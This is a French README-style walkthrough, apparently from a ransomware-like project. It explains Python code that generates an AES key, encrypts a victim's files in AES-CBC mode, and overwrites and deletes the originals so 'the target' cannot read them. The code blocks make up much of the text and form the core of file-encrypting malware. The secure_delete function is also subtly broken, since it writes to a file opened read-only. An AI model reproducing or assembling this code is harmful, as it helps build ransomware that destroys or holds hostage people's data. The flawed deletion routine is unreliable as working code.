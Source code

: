 ## Chiffrement des fichiers

Le chiffrement des fichiers se fait par le module encrypt_files.

### Génération de la clé AES

Voici le module pour générer la clé AES.
Ici, nous utilisons la librairie PyCryptodome pour générer une suite de bytes aléatoires que nous allons utiliser comme clé de chiffrement.
Ensuite, nous enregistrons cette clé dans un fichier keyfile.key afin de pouvoir la réutiliser pour chiffrer et déchiffrer les fichiers.


```python
def save_key(key, keyfile_path):
    """Cette fonction permet d'enregistrer la clé générer dans un fichier afin de pouvoir la
    partager et la réutiliser pour chiffrement et déchiffrement du dossier

    Args:
        key: clé secrète AES
        keyfile_path: le fichier dans lequel sera enregistrée la clé
    """
    with open(keyfile_path, 'wb') as keyfile:
        keyfile.write(key)
    print(f"Clé enregistrée dans {keyfile_path}.")
    
def generate_key():
    key = get_random_bytes(32)
    key_file_path = "keyfile.key"
    save_key(key, key_file_path)
```

### Chiffrement des fichiers

La fonction encrypt_file prend en paramètres le chemin du fichier et la clé de chiffrement.
Nous ouvrons d'abord le fichier avec python en mode lecture binaire (c'est la signification de l'option 'rb').
C'est important d'ouvrir le fichier en mode binaire parce qu'AES ne peut chiffrer que des octets et non du texte. Nous enregistrons ainsi le contenu du fichier sous forme de bytes dans la variable file_data.
Ensuite nous créons un nouveau object AES de la lirairie PyCryptodome en mode CBC (Cipher Block Chaining), qui doit nous permettre de chiffrer le fichier.

Explication des fonctions de la librairie : 

pad()
Le padding est nécessaire parce qu'AES travaille avec des blocs de taille fixe (16 octets pour AES). Si les données du fichier ne sont pas un multiple de la taille de bloc, la fonction pad ajoute des octets supplémentaires pour compléter le dernier bloc.

cipher.iv
Le mode CBC nécessite un vecteur d'initialisation (IV) pour fonctionner. Il est ajouté au début du texte chiffré. L'IV permet une part d'aléatoire au chiffrement.

Aisni, la fonction encrypt_file retourne une combinaison du vecteur d'initialisation (cipher.iv), qui occupe les 16 premiers octets et du texte chiffré (cipher.encrypt(...)) qui suit.

```python
def encrypt_file(file_path, key):
    with open(file_path, 'rb') as f:
        file_data = f.read()
    cipher = AES.new(key, AES.MODE_CBC)
    ciphertext = cipher.iv + cipher.encrypt(pad(file_data, AES.block_size))
    return ciphertext
```

### Suppression des fichiers originaux pour empêcher la lecture

Enfin, nous supprimons les fichiers d'origine pour empêcher la lecture par la cible.
D'abord, nous récupérons la taille du fichier en octets (nombre total d'octets dans le fichier).
Cette information est nécessaire pour savoir combien de données aléatoires doivent être écrites pour écraser complètement le fichier. 
os.urandom(file_size) génère ensuite une séquence d'octets aléatoires de longueur égale à file_size.
Ces octets sont cryptographiquement sûrs, ce qui rend leur récupération extrêmement difficile. Puis, f.write écrit les octets générés directement dans le fichier, remplaçant son contenu existant. Cela garantit que l'ancien contenu est écrasé avant que le fichier ne soit supprimé.
os.remove(file_path) supprime enfin le fichier du système de fichiers après écrasement de son contenu.


```python
def secure_delete(file_path):
    try:
        with open(file_path, 'rb') as f:
            file_size = os.path.getsize(file_path)
            f.write(os.urandom(file_size))
        os.remove(file_path)
    except Exception as e:
        print(f"Erreur lors de la suppression sécurisée de {file_path}: {e}")
```

